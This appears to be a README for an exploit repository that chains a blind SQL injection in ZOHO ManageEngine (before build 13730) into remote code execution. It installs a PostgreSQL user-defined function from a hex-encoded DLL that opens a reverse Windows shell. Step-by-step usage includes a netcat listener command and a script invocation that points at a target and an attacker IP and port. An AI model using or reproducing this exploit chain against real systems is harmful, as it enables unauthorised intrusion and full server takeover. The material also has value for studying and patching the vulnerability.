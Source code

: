 # ZOHO ManageEngine SQLi to RCE Exploit Chain

ManageEngine-SQLi-RCE.py : Python script to exploit ManageEngine SQLi into RCE; prior to versions Build 13730

psql-udf.hex : hex encoded DLL of a custom UDF function which creates a reverse Windows shell.

src/psql-udf/psql-udf.c: source code for psql-udf.hex

## Summary 
ZOHO ManageEngine before build 13730 has a blind SQLi in the AMUserResourcesSyncServlet. If the database user has
administrator privileges then the SQLi can be leveraged into full RCE by using write-to-disk exploits.
Also if the backend database is PostgreSQL then there is the possibility to install a User Defined Function and
then call that function to establish a reverse shell, as this exploit is written to do.

## Proof-Of-Concept
1. Download or clone git repo
2. Start a netcat listener
   `$ nc -lvp 4444`
3. Run ManageEngine-SQLi-RCE.py with the full path to psql-udf.hex
   `$ python3 ./ManageEngine-SQLi-RCE.py -t https://target.com:8443 -f "/home/user/ManageEngine SQLi-RCE/psql-udf.hex" -l attacker.ip -p 4444`

## Other
* If you need to change the DLL file which the function is loaded from the source code for psql-udf.hex is included in the udf folder.
* You will need to recompile it using VScode
* then you will need to hex encode the DLL
